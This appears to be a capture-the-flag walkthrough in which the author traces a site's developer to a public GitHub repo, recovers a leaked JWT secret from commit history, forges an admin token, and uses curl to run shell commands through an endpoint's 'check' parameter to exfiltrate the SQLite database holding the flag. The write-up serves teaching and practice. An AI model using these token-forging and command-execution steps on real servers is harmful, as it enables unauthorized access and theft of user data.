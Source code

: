
# Your Confessions - Walkthrough

For this OSINT challenge, we were provided with just a single URL. Naturally, I began by searching it on the internet.

The link opened up a confessions website. It had a homepage listing confessions, along with **login** and **signup** pages. As a first step, I tried registering with some dummy credentials and then logged in successfully. I could now submit my own confessions — but nothing seemed too suspicious yet.

Since this was tagged as an *OSINT* challenge, I figured the key wouldn't be hidden inside the application’s main functionality. So I started exploring the site more closely. That's when I noticed something interesting in the footer:  
> *"Made with ❤ by NiceDev-31fab3e4"*

That looked like a solid lead.

---

### Step 1: Investigating the Username

I thought of checking GitHub to see if there was a user named `NiceDev-31fab3e4`. To be thorough, I used a tool called [Sherlock](https://github.com/sherlock-project/sherlock), which scans multiple social platforms for a given username. Sure enough, the username existed on GitHub — and even better — it had a public repository named `yc`.

Opening the repository, I realized this was **the actual code** for the same confessions website.

---

### Step 2: Exploring the Code

Going through the code, especially the `app.py` file, I discovered all the routes and endpoints. Most of them matched what I had already seen on the website. However, one endpoint caught my eye:

```
/serveruptimeforadmins
```

Unlike the others, this one was protected and required a **JWT token** for authorization.

In the repo, there was also a file named `.env.example` that hinted at the use of secrets:
- `APP_SECRET_KEY`
- `SQLALCHEMY_DATABASE_URI`
- `JWT_SECRET`

Any experienced developer knows it's dangerous to expose these kinds of secrets. That’s when I remembered a time I had accidentally committed my own secrets in a public repo — it happens! So, I wondered: **Did this developer make the same mistake?**

---

### Step 3: Recovering the Secret

To find out, I cloned the repo and checked its commit history using:

```bash
git log -p | grep JWT_SECRET
```

And there it was — the **JWT_SECRET** was accidentally committed and later removed. Jackpot!

---

### Step 4: Forging a JWT Token

With the secret in hand, I used [jwt.io](https://jwt.io) to manually forge a JWT token. I set the payload as:

```json
{
  "user_id": 1
}
```

I assumed that user ID `1` likely belonged to an admin. I signed the token using the leaked JWT_SECRET from the previous step.

Then, I tested access to the restricted endpoint using `curl`:

```bash
curl -X GET "http://<IP_ADDRESS>:5000/serveruptimeforadmins?check=uptime"   -H "Authorization: <your_token_here>"
```

And it worked! 

---

### Step 5: Digging into the Server

With access granted, I listed the server's files:

```bash
curl -X GET "http://<IP_ADDRESS>:5000/serveruptimeforadmins?check=ls"
```

This revealed a folder called `instance`. I looked into it and found a file named `confessions.db`. Given the project was using SQLite (as seen from the repo), I decided to retrieve the database file.

But downloading binary data through this endpoint isn’t direct — so I base64 encoded the file first:

```bash
curl -G "http://<IP_ADDRESS>:5000/serveruptimeforadmins"   --data-urlencode "check=base64 instance/confessions.db"   -H "Authorization: <your_token>"   --output encoded.txt
```

I cleaned the response to strip out HTML tags and then decoded it:

```bash
sed -n '/<pre>/,/<\/pre>/p' encoded.txt | sed '1d;$d' > clean_base64.txt
base64 -i clean_base64.txt -o confessions_fixed.db -d
```

---

### Step 6: Extracting the Flag

Finally, I opened the fixed database using SQLite:

```bash
sqlite3 confessions_fixed.db
```

Listing the tables:

```sql
.tables
```

Showed two tables:
- `user`
- `confession`

I queried the user table:

```sql
SELECT * FROM user;
```

And there it was — the flag inside the first user’s record.

---

### Final Thoughts

This challenge was a great blend of OSINT and beginner-level pentesting. It highlighted the importance of:
- Keeping secrets truly secret
- Scrubbing commit history before pushing code publicly
- Never trusting security through obscurity

A simple slip-up — committing a secret — led to full access to a protected admin route and the sensitive database behind it.

---
